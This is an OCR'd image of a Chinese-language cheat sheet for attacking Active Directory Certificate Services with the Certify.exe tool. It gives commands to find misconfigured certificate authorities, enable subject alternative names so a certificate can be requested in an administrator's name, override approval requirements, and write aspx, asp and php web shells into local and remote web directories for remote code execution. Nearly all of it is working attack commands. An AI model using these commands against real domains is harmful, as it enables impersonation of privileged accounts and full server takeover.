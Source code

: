 	检测允许低权限用户ManageCA 或Manage Certificates权限 的 CA
	>Certify.exe find /vulnerable
	更改 CA 设置以为易受攻击的 CA (ESC6) 下的所有模板启用 SAN 扩展
	>Certify.exe setconfig /enablesan /restart
	使用所需的 SAN 请求证书。
	>Certify.exe request /template:User /altname:super.adm
	如果需要，授予批准或禁用批准要求
	授予
	>Certify.exe issue /id:[REQUEST ID]
	禁用
	>Certify.exe setconfig /removeapproval /restart
	从ManageCA到ADCS 服务器上的RCE的替代利用：

	获取当前的 CDP 列表。 用于查找远程可写共享：
	Certify.exe writefile /ca:SERVER\ca-name /readonly

	将 aspx shell 写入本地 Web 目录：
	Certify.exe writefile /ca:SERVER\ca-name /path:C:\Windows\SystemData\CES\CA-Name\shell.aspx /input:C:\Local\Path\shell.aspx

	将默认的 asp shell 写入本地 web 目录：
	Certify.exe writefile /ca:SERVER\ca-name /path:c:\inetpub\wwwroot\shell.asp

	将 php shell 写入远程 Web 目录：
	Certify.exe writefile /ca:SERVER\ca-name /path:\\remote.server\share\shell.php /input:C:\Local\path\shell.php